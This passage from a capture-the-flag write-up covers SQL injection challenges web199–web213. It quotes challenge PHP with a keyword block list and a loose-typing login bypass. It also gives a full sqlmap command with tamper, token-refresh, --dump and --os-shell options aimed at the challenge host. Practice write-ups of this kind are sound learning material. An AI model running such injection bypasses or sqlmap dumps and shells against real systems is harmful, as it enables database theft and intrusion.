  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop|\\(/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

Parentheses are banned. Use the return value of show tables to make the value of row[0] the table name, and combined with the table name ctfshow_user stated in the query statement, we can just set password to ctfshow_user and username to 0 for a loose-typing match to get the flag.

### web200

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop|\\(|\\,/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

No effect; gets through directly, same as web199.

## sqlmap

### web201-213

I started systematically practicing sqlmap usage; the sqlmap query command stacked up by the end is as follows.

```bash
python sqlmap.py -u "https://c57798e2-5999-43ca-b966-07c649221079.challenge.ctf.show/api/index.php" --data "id=1" --user-agent "sqlmap" --referer "https://ctf.show/" --method "put" --safe-url "https://c57798e2-5999-43ca-b966-07c649221079.challenge.ctf.show/api/getToken.php" --safe-freq "1" --tamper "self-tamper" --header "Content-Type: text/plain" --cookie "PHPSESSID=q4u6v10qc9j64c03akm3i7fkqu" --dump --batch --os-shell
```

I also learned how to write a tamper for sqlmap.

[Writing a Sqlmap Tamper](https://y4er.com/posts/sqlmap-tamper/)
